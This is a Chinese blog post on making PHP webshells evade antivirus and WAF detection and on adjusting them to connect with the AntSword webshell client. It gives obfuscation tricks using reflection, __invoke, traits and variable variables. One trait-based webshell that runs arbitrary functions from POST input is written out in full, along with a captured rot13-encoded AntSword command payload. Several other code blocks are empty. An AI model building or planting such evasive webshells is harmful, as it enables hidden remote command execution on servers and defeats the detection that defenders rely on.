



前言
继上一篇Webshell免杀已经过去很久了，之前的工作只是完成了落地免杀和命令的执行，如果我们直接传参进行命令执行的话会很容易被WAF拦截。蚁剑有编码器这一功能可以方便我们绕过WAF的检测。
后来一次使用webshell过程中发现其并不能连接蚁剑，决定抓包简单分析一下流量修改我们的webshell。
本文首发于先知社区:
https://xz.aliyun.com/t/9218
trick
上一篇只是提到了php中大家比较少用的tricks，所以这一次分享几个之前总结的一些成果。
ReflectionClass::newInstance
1 |
|
我们首先初始化一个反射类，传入要实例化类的类名，接下来用newInstance()方法对该类进行实例化。
- 我们的webshell需要接收两个参数，一个是
函数，另一个是函数的参数，这里借用@郑瀚AndrewHann师傅的污点传递理论
- 接下来就是在构造函数内部执行命令，执行命令的方式是使用可变函数。当函数名被传入
$para=assert时，构造函数内变为assert($_value)。函数的参数即我们要执行的命令。 - 最后解决参数的传递。常见的
$_GET[]、$_POST[]、$_COOKIE[]...数组无法直接使用。我们依然利用PHP的动态特性，使webshell不出现$_GET[]、$_POST[]、$_COOKIE[]...。当程序执行到第二个foreach循环之前。我们的输入并没有参数来接收，直到我们使用可变变量变出了$_POST[]，并将其键值进一步操作后传入newInstance函数。
上面这个webshell依然可以进行变形。
1 |
|
__invoke：当尝试以调用函数的方式调用一个对象时，该方法会被自动调用。
所以我们在构造函数内调用一次对象：$this($p1,$p2)，接着会调用__invoke()函数实现命令执行。
trait(PHP 7)
php从以前到现在一直都是单继承的语言，无法同时从两个基类中继承属性和方法，为了解决这个问题，php出了Trait这个特性
- 用法：通过在类中使用
use关键字，声明要组合的Trait名称，具体的Trait的声明使用Trait关键词，Trait不能实例化1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
trait Dog
{
public $name="dog";
public function drive()
{
echo "This is dog drive";
}
public function eat($a, $b)
{
$a($b);
}
}
class Animal
{
public function drive()
{
echo "This is animal drive";
}
public function eat()
{
echo "This is animal eat";
}
}
class Cat extends Animal
{
use Dog;
public function drive()
{
echo "This is cat drive";
}
}
foreach (array('_POST') as $_request) {
foreach ($$_request as $_key=>$_value) {
$$_key= $_value;
}
}
$cat = new Cat();
$cat->eat($_key, $_value); - 我们的参数依旧将键值数组中的
键、值分别传入。函数调用则使用PHP 7中的trait特性，最终实现可变函数的执行
静态调用非静态函数
1 |
|
在C、Java中，非静态函数肯定是不能被静态调用的。首先会编译失败。但是PHP是个解释函数。至于原理：这里直接附上鸟哥的文章
连接蚁剑
将蚁剑挂上burpsuite。上传我们的一句话木马进行连接。
- 请求的流量
1
assert=@eval(@str_rot13($_POST[ca3a283bf3d534]));&ca3a283bf3d534=@vav_frg("qvfcynl_reebef", "0");@frg_gvzr_yvzvg(0);shapgvba nfrap($bhg){erghea $bhg;};shapgvba nfbhgchg(){$bhgchg=bo_trg_pbagragf();bo_raq_pyrna();rpub "ron28298";rpub @nfrap($bhgchg);rpub "9741440r5";}bo_fgneg();gel{$Q=qveanzr($_FREIRE["FPEVCG_SVYRANZR"]);vs($Q=="")$Q=qveanzr($_FREIRE["CNGU_GENAFYNGRQ"]);$E="{$Q} ";vs(fhofge($Q,0,1)!="/"){sbernpu(enatr("P","M")nf $Y)vs(vf_qve("{$Y}:"))$E.="{$Y}:";}ryfr{$E.="/";}$E.=" ";$h=(shapgvba_rkvfgf("cbfvk_trgrtvq"))?@cbfvk_trgcjhvq(@cbfvk_trgrhvq()):"";$f=($h)?$h["anzr"]:@trg_pheerag_hfre();$E.=cuc_hanzr();$E.=" {$f}";rpub $E;;}pngpu(Rkprcgvba $r){rpub "REEBE://".$r->trgZrffntr();};nfbhgchg();qvr();
- 可以得到webshell执行的内容为：
assert(@eval(@str_rot13($_POST[ca3a283bf3d534]));)，接着&ca3a283bf3d534=xxxx为我们的第二个POST参数
所以实际上webshell执行的是第二个随机参数的值。 - 回显
Call to undefined function ca3a283bf3d534()这里报错未定义的函数，很显然我们的可变函数的函数名被覆盖了。并没有执行assert()，达到预期的结果。
实际上我们需要的是第一个POST参数即我们传入的assert。所以我们的webshell在循环数组时，造成了变量覆盖，后来的参数覆盖了前一个值。在webshell中我们需要取第一个值再传递它即可。
修改
以第一个webshell为例：
1 |
|
我们依然使用可变变量的方式获取参数的值。我们循环一次将函数名取出，再传递即可。
最后
